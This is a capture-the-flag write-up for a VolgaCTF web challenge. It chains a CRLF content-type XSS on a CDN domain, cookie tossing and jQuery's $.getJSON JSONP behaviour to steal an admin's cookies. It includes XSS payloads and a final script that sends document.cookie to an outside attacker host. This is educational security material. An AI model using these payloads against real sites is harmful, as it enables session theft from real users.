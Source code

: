 ## Owner:

> CaptainFreak

#### Solved?

 -No


#### Challenge Description.

0. Three domains:
	0.a. static.volga-ctf.ru -> CDN
	0.b. api.volga-ctf.ru    -> API
	0.c. volga-ctf.ru        -> Main Domain

1. There was a Report Feature to submit a URL and Admin user will visit it using a FireFox client.

2. Standard, Login and Signup.

3. Upon Loggin in, Server sets a standard session cookie "PHPSESSIONID" and another interesting cookie "api-server=api".

4. This `api-server` cookie is used POST-login to send XHR calls to {api-server-cookie}.volga-ctf.ru for getting user Profile [Name, Bio and Profile Picture]. Getting value of subdomain from cookie smells fishy!

5. api.volga-ctf.ru/user-update take an image as well its content-type from client Side but to be not vulnerable to xss it was checking if this contained substrings as "html", "xml" and "xsl".

6. volga.ctf/profile.html?guid=user-id seems useless cause /profile is also doing same

And task was:

> To somehow steal admins cookies by chaining all this.


#### Tried:

1. Clearly SSRF through Report.
2. Fuzzed, Bypassed Got the XSS on static domain through content-type: `image/svg+x\rml` -> this worked because the code `aws/aws-sdk-php`  that pushed the images to s3 bucket (static.volga-ctf.ru) was vulnerable to CRLF. 
Another ways to get XSS on this domain will be :

	2.a. To fuzz multiple content types supported by browser and are interpreted as HTML. Ex. `text/rdf`, `text/xsl` and `text/vtt`

	2.b. Use FirFoxes multipart response rendering with content-type: `Content-Type: multipart/x-mixed-replace;boundary="boundry`. Firefox renders the last part of the response.

#### Solutions:

1.	So we have XSS on static.volga-ctf.ru.

2.  Now using this XSS we can set the cookie `api-server=shoebpatel.com\xff; path=/profile.html` for `volga-ctf.ru`. This will overwrite the original cookie on url `/profile.html` because it was set for "path=/".

3. We did this because now on `volga-ctf.ru/profile.html` the main.js has code

```
$.getJSON(`//${api}.volga-ctf.ru/user?guid=${guid}`
```

loaded will do request on `shoebpatel.com/?volga-ctf.ru/user?guid=${guid}` which will give cookies which was being originally sent to api.volga-ctf.ru (PHPSESSIONID) Only. We have PHP cookie but we yet dont have Flag cookie :( .

4. So this was a ust google search for `$.getJSON XSS` step! We needed to read and find about XSS ways in getJSON !

5. It was damn easy, If the URL to $.getJSON contains `?` anywhere in the following format, Examples:
	
	5.0. https://captainfreak.com/q?a=?
	5.a. https://captainfreak.com/??
	5.b. https://captainfreak.com/=?&
	5.c. https://captainfreak.com??
	5.d. https://??.captainfreak.com/

It will be considered as JSONP in JQuery's context and by that what it means its basically gonna do 

```
<script src="https://captainfreak.com/?a=?"></script>
```

And this is hostes on volga-ctf.ru. Boom XSS.

If you still need to try yourself to get this:

### PoC:

test.html:
```
<!doctype html>
<html lang="en">
  <head>
  	<script src="https://code.jquery.com/jquery-3.4.1.min.js" integrity="sha256-CSXorXvZcTkaix6Yvo6HppcZGetbYMGWSFlBw8HfCJo=" crossorigin="anonymous"></script>

  </head>
  <body>
  	<script type="text/javascript">
  		$.getJSON('http://0.0.0.0:8000/a?a=?',function(data){});
  	</script>
  	
  </body>
```

where `http://0.0.0.0:8000/a?a=?` returns just 
```
alert(1); 
```

You will get the alert :) 

### Final Simple XSS Exploit to be uploaded to static domain and reported for SSRF:

```
<script> 
document.cookie="api_server=shoebpatel.com\xff; path=/profile.html; domain=.volgactf-task.ru";

// Now we set the server to attacker domain with cookie which will be used for fetching our next XSS cookie exfil payload in below request:

location="https://volgactf-task.ru/profile.html?guid=?"

// This will invoke the $getJSON thingy in main.js with attacker domain responding with second XSS payload :) to send away the cookies on volga-ctf.ru
</script>

// The request to our attacker server (shoebpatel.com/?volgactf-task.ru/user?guid=?) should host the cookie exfiltration payload like:

const url = "shoebpatel.com/?cookie+" + btoa(document.cookie);
document.location = url;

```

### References:

1. https://ctftime.org/task/10863



